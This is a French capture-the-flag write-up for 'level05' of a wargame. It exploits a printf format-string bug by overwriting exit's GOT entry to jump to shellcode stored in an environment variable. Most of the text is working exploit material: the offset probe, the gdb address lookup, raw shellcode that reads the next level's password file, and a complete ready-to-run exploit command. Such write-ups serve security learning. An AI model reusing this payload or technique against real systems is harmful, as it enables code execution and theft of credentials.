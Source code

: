 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une vulnerabilité dans le code source le printf a une variable en tant que format
- On commence donc par reperer l'offset
```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```
- Pour que notre shellcode s'execute il faut rediriger la fonction exit vers celui ci
- On recupere donc l'addresse d'exit
<pre>
$> objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>
- Le retour du fgets est modifier pour nous empecher d'y ecrire un shellcode
- La meilleur solution est donc d'ecrire le shellcode dans le env
- On recupere donc l'addresse de la variable SHELLCODE
<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/1s **(char***)&environ
0xffffdf77:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
(gdb) x 0xffffdf77 + 10
<strong>0xffffdf81:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"</strong>
</pre>
- Apres avoir assemblé tout cela donne cette commande
```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e0 + 2) + '%{}d'.format(0xdf81 - 0xc) + '%11\$n' + '%{}d'.format(0xffff - 0xdf81) + '%12\$n')") \
| env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
```
